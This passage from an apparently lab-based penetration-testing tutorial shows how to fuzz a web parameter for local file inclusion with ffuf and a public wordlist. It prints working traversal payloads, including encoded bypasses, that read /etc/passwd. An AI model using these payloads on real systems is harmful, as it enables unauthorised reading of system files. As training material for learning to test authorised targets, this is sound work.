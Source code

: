 
## LFI wordlists

So far in this module, we have been manually crafting our LFI payloads to test for LFI vulnerabilities. This is because manual testing is more reliable and can find LFI vulnerabilities that may not be identified otherwise, as discussed earlier. However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities.

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the`?language=` parameter we have been testing throughout the module, as follows:

```shell-session
smoothment@htb[/htb]$ ffuf -w /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method : GET
 :: URL : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist : FUZZ: /opt/useful/seclists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 40
 :: Matcher : Response status: 200,204,301,302,307,401,403
 :: Filter : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.

---

## Fuzzing Server Files

In addition to fuzzing LFI payloads, there are different server files that may be helpful in our LFI exploitation, so it would be helpful to know where such files exist and whether we can read them. Such files include:`Server webroot path`,`server configurations file`, and`server logs`.
